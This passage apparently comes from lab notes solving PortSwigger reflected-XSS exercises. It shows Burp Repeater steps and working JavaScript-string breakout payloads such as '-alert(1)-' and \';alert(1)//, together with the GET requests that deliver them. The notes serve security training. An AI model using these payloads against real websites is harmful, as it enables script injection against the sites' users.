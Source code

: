 ```bash
Send to repeater
Search the response:

{{check}}

Response:

var searchTerms = '{{check}}';

Go to repeater
Enter into search:

'-alert(1)-'

Like so:

GET /?search='-alert(1)-' HTTP/1.1

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519212445.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519212856.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519212912.png)

#### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
```bash

# This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.

# To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

Enter into the search:

123456

Go to: HTTP history

GET /?search=123456 HTTP/1.

Send to repeater
Search the response:

123456

Response:

var searchTerms = '123456';

Go to repeater
Enter into search:

\';alert(1)//

Like so:

GET /?search=\';alert(1)// HTTP/1.1
```